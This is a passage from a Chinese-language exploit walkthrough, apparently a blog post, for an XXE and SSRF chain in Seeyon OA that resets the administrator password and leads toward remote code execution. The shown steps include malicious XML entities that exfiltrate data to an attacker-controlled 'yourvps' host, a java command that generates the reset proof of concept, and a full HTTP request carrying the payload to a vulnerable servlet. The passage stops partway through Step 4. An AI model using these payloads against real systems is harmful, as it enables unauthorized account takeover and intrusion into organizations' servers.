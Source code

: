  _ **> Step1：**_

把124.xml、125.xml和126.xml上传到自己的vps上，并开启WEB访问。

  

 _ **> Step2：**_

修改124.xml文件中第二个请求的地址为自己的vps地址，如下所示。

  *   * 

    
    
    <!ENTITY % file SYSTEM "http://127.0.0.1:60001/agent/config/modifyDefaultUserInfo?pwd=TVRJek5EVTI="><!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://yourvps:yourport/123.php?p=%file;'>">

  

 _ **> Step3：**_

生成重置密码的POC，使用下面的命令，保证124.xml能正常访问到。

  * 

    
    
    java -cp seeyon.jar Main reset http://yourvps:yourport/124.xml

  

![]()

图4.2 生成重置密码POC

  

通过获取的payload，修改xmlValue字段的值。后续请求会多次利用下面的请求发起SSRF行为，后续简称SSRF请求。

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /seeyon/m-signature/RunSignature/run/getAjaxDataServlet?S=ajaxEdocSummaryManager&M=deleteUpdateObj HTTP/1.1Host: target.hostPragma: no-cacheCache-Control: no-cacheUpgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Language: zh-CN,zh;q=0.9Connection: closeContent-Type: application/x-www-form-urlencodedContent-Length: 302  
    signatures=YWFh02JiYitY2M%3D&encode=true&elemId=YWFh&imgvalue=MTIzNDU2Nzg5MDEyMzQ1Njc4OTAxMjM0NTY3ODkwMTIzNDU2Nzg5MDEyMzQ1Njc4OTAxMjM0NTY3ODkwMTIzNDVNVEl=&xmlValue={payload}

  

正常来说VPS部分会收到下面的请求，如图4.3所示。如果收到124.xml的请求代表目标存在XXE漏洞；如果收到123.php的请求代表可以对目标进行RCE。

![]()

图4.3 重置密码的服务端请求  

  

 _ **> Step4：**_

修改125.xml文件中第二个请求的地址为自己的vps地址，如下所示。

  *   * 
